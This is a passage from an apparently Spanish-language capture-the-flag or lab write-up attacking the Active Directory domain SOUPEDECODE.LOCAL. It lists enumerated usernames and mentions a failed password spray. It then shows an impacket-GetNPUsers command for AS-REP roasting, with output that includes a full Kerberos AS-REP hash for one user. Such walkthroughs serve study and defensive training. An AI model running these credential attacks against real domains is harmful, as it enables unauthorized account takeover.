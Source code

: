 ```
dyvonne18
qxenia19
rreed20
icody21
ftom22
ijake23
rpenny24
jiris25
colivia26
pyvonne27
zfrank28
ybob317
file_svc
charlie
qethan32
..................<REST_OF_USERS>.........................................
```

Hacemos otra vez un password spraying attack esta vez con la lista completa de usuarios del sistema a ver si podemos conseguir alguna contraseña aparte de la de charlie.

Pero no dio ningun resultado, solo disponemos del usuario charlie.

Por lo tanto, vamos a seguir buscando vias de ataque.

# AS REP ROAST ATTACK

Vamos a buscar usuarios que no requieran de pre autenticacion.

```bash
impacket-GetNPUsers SOUPEDECODE.LOCAL/ -no-pass -usersfile users.txt
```

Info:
```
..................<REST_OF_USERS>.........................................
[-] User caiden36 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User xbella37 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smark38 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:29e708614452e851d9d95cf8cd8108f7$331de3dd589e0301b90d4f8d2f1c3a2ed03ecc6c5fce197018923441eac870373beb7619c90c2842e25901f6b4956c60d83f264840debc174e3bcbbc6a2409debd468578793b98855b005b69957b74d9810c642b893eb7b55d3bcd953434bce73a2ba6baaea7f667f172fecd4cdc3d5c22532b73cc1aae71013cd55c3987587ee66e336d23f1669137a33a7defa1ee7e3483c2f5b0f3e3485f0fad41f79966963804ec726fd526e9a32f332f8cbdd3feffb2ba1b9262cdd145e90f31835c4685f64beba5df1e41e28b4a74bf2648ad2813dd2caa210bd09ed0406403472616e9fe1eb17231f0388dfe46549d0b11462ea4dd798f65d8
[-] User fmike40 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User yeli41 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User knina42 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User vhelen43 doesn't have UF_DONT_REQUIRE_PREAUTH set
..................<REST_OF_USERS>.........................................
```
Hemos obtenido el hash del usuario zximena448 gracias a que no necessita pre autenticacion.
